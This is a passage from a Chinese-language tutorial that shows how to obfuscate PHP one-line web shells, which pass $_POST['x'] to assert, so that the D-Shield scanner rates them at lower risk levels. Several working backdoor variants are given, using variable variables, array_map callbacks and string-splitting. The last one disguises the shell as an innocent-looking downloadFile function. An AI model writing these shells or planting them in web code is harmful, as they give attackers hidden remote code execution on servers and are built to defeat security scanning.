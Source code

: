 ![4级](ex_12.png)

可以看到上面的都是通过两种方法的结合，简单的处理一下，就变成了4级，感兴趣的可以把其他的方法都尝试一下，4级的很简单，我们去看看3级的都是怎么处理的

通过上面的动态函数方法我们可以思考，函数可以当成字符串赋值给变量，那么变量也一定能当成字符串赋值给变量，但调用时需要用$$

```php
<?php
$a = "assert";
$c ='a';
$$c($_POST['x']);
```

![3级](ex_13.png)

我们在把这种方法结合到回调函数方法中，可以看到，已经是2级了

```php
<?php
$fun = 'assert';
$f = 'fun';
array_map($$f,array($_POST['x']));
```

![2级](ex_14.png)

这时候我们看一下D盾中的说明：array_map中的参数可疑，我们这时候可以用函数封装一下参数

```php
<?php
function ass(){
    $a = "a451.ass.aaa.ert.adaww";
    $b = explode('.',$a);
    $c = $b[1] . $b[3];
    return $c;
}
$b = array($_POST['x']);
$c = ass();
array_map($c,$b);
```

![1级](ex_15.png)

1级了，离目标近在咫尺了，这时候我们应该考虑让一句话木马像正常的代码，在好好的封装一下

```php
<?php
functiondownloadFile($url,$x){
    $ary = parse_url($url);
    $file = basename($ary['path']);
    $ext = explode('.',$file);
    // assert 
    $exec1=substr($ext[0],3,1);
    $exec2=substr($ext[0],5,1);
    $exec3=substr($ext[0],5,1);
    $exec4=substr($ext[0],4,1);
    $exec5=substr($ext[0],7,2);
    $as[0] = $exec1 . $exec2 . $exec3 . $exec4 . $exec5;
    $as[1] = $x;
    return $as;
}

$a = $_POST['x'];
$s = downloadFile('http://www.baidu.com/asdaesfrtafga.txt',$a);
$b = $s[0];
$c = $s[1];
array_map($b,array($c));
```
